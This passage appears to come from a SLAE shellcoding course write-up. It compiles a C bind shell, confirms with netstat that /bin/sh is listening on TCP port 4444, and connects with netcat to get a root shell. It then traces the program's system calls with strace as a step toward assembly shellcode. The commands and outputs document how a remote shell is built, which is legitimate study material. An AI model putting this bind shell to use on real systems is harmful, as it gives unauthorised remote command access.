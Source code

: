{% endhighlight %}

Compiling this code with `gcc bindshell.c -o bindshell` gives us a
nice executable. Running the executable with `./bindshell` and then
looking at our network using `netstat -antp` yields something very
interesting:

{% highlight bash %}
    root@blahblah:~# netstat -atp Active Internet connections (servers and
    established) Proto Local Address Foreign Address State PID/Program
    name tcp *:4444 *:* LISTEN 1657/bindshell
{% endhighlight %}

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running `nc
-nv -nv 127.0.0.1 4444` we will get:

    root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
    open id uid=0(root) gid=0(root) groups=0(root)

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly&#x2026;

## Analysis of the C program<a id="sec-1-5" name="sec-1-5"></a>

We can use a tool called `strace` to help us learn more about what system calls
our bind shell c program is making. Running `strace ./bindshell`, connecting
to the bindshell with `nc -nv 127.0.0.1 4444` and filtering out the noise
we will see:

    root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
    execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
    socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 0)                            = 0
    accept(3,
    dup2(4, 0)                              = 0
    dup2(4, 1)                              = 1
    dup2(4, 2)                              = 2
    execve("/bin/sh", [0], [/* 0 vars */])  = 0

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our `execve` call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult `/usr/include/i386-linux-gnu/asm/unistd_32.h` for these numbers&#x2026;

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

    #define __NR_execve 11
    #define __NR_dup2 63
    #define __NR_socketcall 102
    #define __NR_mbind 274
